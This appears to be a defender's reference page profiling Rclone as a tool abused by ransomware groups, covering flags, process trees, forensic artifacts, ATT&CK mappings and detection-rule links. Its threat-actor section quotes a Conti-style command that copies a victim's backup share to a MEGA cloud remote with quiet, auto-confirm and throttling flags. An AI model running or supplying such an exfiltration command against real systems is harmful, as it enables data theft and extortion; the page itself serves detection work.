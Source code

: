 # Rclone

## Table of Contents

- [Rclone](#rclone)
  - [Table of Contents](#table-of-contents)
  - [Acknowledgement(s)](#acknowledgements)
  - [Description](#description)
  - [Versions History](#versions-history)
  - [File Metadata](#file-metadata)
  - [Common CommandLine](#common-commandline)
  - [Threat Actor Ops (TAOps)](#threat-actor-ops-taops)
  - [Common Process Trees](#common-process-trees)
  - [Default Install Location](#default-install-location)
  - [DFIR Artifacts](#dfir-artifacts)
  - [Examples In The Wild](#examples-in-the-wild)
  - [Documentation](#documentation)
  - [Blogs / Reports References](#blogs--reports-references)
  - [ATT&CK Techniques](#attck-techniques)
  - [Telemetry](#telemetry)
  - [Detection Validation](#detection-validation)
  - [Detection Rules](#detection-rules)
  - [LOLBAS / GTFOBins References](#lolbas--gtfobins-references)

## Acknowledgement(s)

- 3CORESec - [@3CORESec](https://twitter.com/3CORESec)
- Nasreddine Bencherchali - [@nas_bench](https://twitter.com/nas_bench)

## Description

<p align="center"><img src="/Images/Screenshots/DefenderControl.png"></p>

> **Rclone is a command line program to manage files on cloud storage, has powerful cloud equivalents to the unix commands rsync, cp, mv, mount, ls, ncdu, tree, rm, and cat** — [Rclone](https://rclone.org/)

## Versions History

| Version | SHA1                                     | VT                                                                                                                   |
|---------|------------------------------------------|----------------------------------------------------------------------------------------------------------------------|
| 1.57.0 (x64)    | fdb92fac37232790839163a3cae5f37372db7235 | [LINK](https://www.virustotal.com/gui/file/0112e3b20872760dda5f658f6b546c85f126e803e27f0577b294f335ffa5a298)                                                                                                             |

## File Metadata

| Attribute     | Value |
|---------------|-------|
| Copyright     | The Rclone Authors     |
| Product       | Rclone     |
| Description   | Rsync for cloud storage     |
| Original Name | rclone.exe     |
| Internal Name | rclone     |

## Common CommandLine

- Rclone is most often renamed by threat actors so its better to focus on the arguments as those are less likely to change

```batch
rclone config

rclone config create [ConfName] [CloudStorageProvider] user [User/Email] pass [Password]

rclone copy --max-age [Duration] "[\\Source]" [ConfigName]:[Destination]
```

- Below are some of the most common flags

```yaml
- -q, --quiet: Print as little stuff as possible
- --no-check-certificate: Do not verify the server SSL certificate (insecure)
- --auto-confirm: If enabled, do not request console confirmation
- --max-age: Only transfer files younger than this in s or suffix ms|s|m|h|d|w|M|y (default off)
- --bwlimit BwTimetable: Bandwidth limit in KiB/s, or use suffix B|K|M|G|T|P or a full timetable
- -P, --progress: Show progress during transfer
- --transfers: Number of file transfers to run in parallel (default 4)
- --ignore-existing: Skip all files that exist on destination
- --multi-thread-streams: Max number of streams to use for multi-thread downloads (default 4)
```

## Threat Actor Ops (TAOps)

- [Exfiltration of data via ``Rclone`` (Example 1)](https://www.advintel.io/post/backup-removal-solutions-from-conti-ransomware-with-love)

```powershell
rclone.exe copy --max-age 2y "\\VEEAM.VICTIMORG.local\" mega:VEEAM -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M
```

## Common Process Trees

- Rclone launched from CMD or PowerShell

```yaml
.
└── cmd.exe
    └── rclone.exe

.
└── powershell.exe
    └── rclone.exe
```

## Default Install Location

- ``Rclone`` is a downloadable portable executable so no installation is required to execute it.

## DFIR Artifacts

- Using the default config creation command will create the file ``rclone.conf`` in the following location:

```batch
C:\Users\[Username]\AppData\Roaming\rclone\rclone.conf
```

## Examples In The Wild

- TBD

## Documentation

- [Rclone - Commands](https://rclone.org/commands/)
- [Rclone - Usage](https://rclone.org/docs/)
- [Rclone - Flags](https://rclone.org/flags/)

## Blogs / Reports References

- [Cybereason - THREAT ANALYSIS REPORT: From Shathak Emails to the Conti Ransomware](https://www.cybereason.com/blog/threat-analysis-report-from-shatak-emails-to-the-conti-ransomware)
- [Cybereason - Cybereason vs. Egregor Ransomware](https://www.cybereason.com/blog/cybereason-vs-egregor-ransomware)
- [The DFIR Report - BazarLoader and the Conti Leaks](https://thedfirreport.com/2021/10/04/bazarloader-and-the-conti-leaks/)
- [The DFIR Report - Sodinokibi (aka REvil) Ransomware](https://thedfirreport.com/2021/03/29/sodinokibi-aka-revil-ransomware/)
- [The DFIR Report - CONTInuing the Bazar Ransomware Story](https://thedfirreport.com/2021/11/29/continuing-the-bazar-ransomware-story/)
- [Microsoft Security Blog - BazaCall: Phony call centers lead to exfiltration and ransomware](https://www.microsoft.com/security/blog/2021/07/29/bazacall-phony-call-centers-lead-to-exfiltration-and-ransomware/)
- [Mandiant - So Unchill: Melting UNC2198 ICEDID to Ransomware Operations](https://www.mandiant.com/resources/melting-unc2198-icedid-to-ransomware-operations)
- [Mandiant - Shining a Light on DARKSIDE Ransomware Operations](https://www.mandiant.com/resources/shining-a-light-on-darkside-ransomware-operations)
- [Mandiant - UNC2447 SOMBRAT and FIVEHANDS Ransomware: A Sophisticated Financial Threat](https://www.mandiant.com/resources/unc2447-sombrat-and-fivehands-ransomware-sophisticated-financial-threat)
- [Mandiant - Navigating the MAZE: Tactics, Techniques and Procedures Associated With MAZE Ransomware Incidents](https://www.mandiant.com/resources/tactics-techniques-procedures-associated-with-maze-ransomware-incidents)
- [ADVIntel - Backup “Removal” Solutions - From Conti Ransomware With Love](https://www.advintel.io/post/backup-removal-solutions-from-conti-ransomware-with-love)
- [ADVIntel - Hunting for Corporate Insurance Policies: Indicators of [Ransom] Exfiltration](https://www.advintel.io/post/hunting-for-corporate-insurance-policies-indicators-of-ransom-exfiltrations)
- [NCC Group - Detecting Rclone – An Effective Tool for Exfiltration](https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/)
- [Red Canary - Transferring leverage in a ransomware attack](https://redcanary.com/blog/rclone-mega-extortion/)

## ATT&CK Techniques

- [T1048 - Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage](https://attack.mitre.org/techniques/T1567/002/)

## Telemetry

- [Security Event ID 4688 - A new process has been created](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4688)
- [Sysmon Event ID 1 - Process creation](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90001)
- [PsSetCreateProcessNotifyRoutine/Ex](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreateprocessnotifyroutineex)
- [ETW - Microsoft-Windows-Kernel-Process - Event ID 1 - ProcessStart](https://github.com/nasbench/EVTX-ETW-Resources)
- [ETW - Microsoft-Windows-Kernel-File - Event ID 12 - Create](https://github.com/nasbench/EVTX-ETW-Resources)
- [Sysmon Event ID 11 - FileCreate](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90011)

## Detection Validation

- TBD

## Detection Rules

- **Splunk**
  - [Detect Renamed RClone](https://research.splunk.com/endpoint/detect_renamed_rclone/)
  - [Detect RClone Command-Line Usage](https://research.splunk.com/endpoint/detect_rclone_command-line_usage/)

- **Microsoft 365 Defender**
  - [Bazacall Renamed Rclone for Exfiltration](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Campaigns/Bazacall/Renamed%20Rclone%20Exfil.md)

- **Sigma**
  - [Rclone Config File Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/win_rclone_exec_file.yml)
  - [Rclone Execution via Command Line or PowerShell](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/win_susp_rclone_execution.yml)

- **Other**
  - [Vadim-Hunter - Sodinokibi (aka REvil) Ransomware](https://github.com/vadim-hunter/Detection-Ideas-Rules/blob/main/Threat%20Intelligence/The%20DFIR%20Report/20210329_Sodinokibi_(aka_REvil)_Ransomware.yaml)
  - [BeardOfBinary - Rclone Execution via Command Line or PowerShell](https://gist.github.com/beardofbinary/fede0607e830aa1add8deda3d59d9a77#file-rclone_execution-yaml)

## LOLBAS / GTFOBins References

- N/A

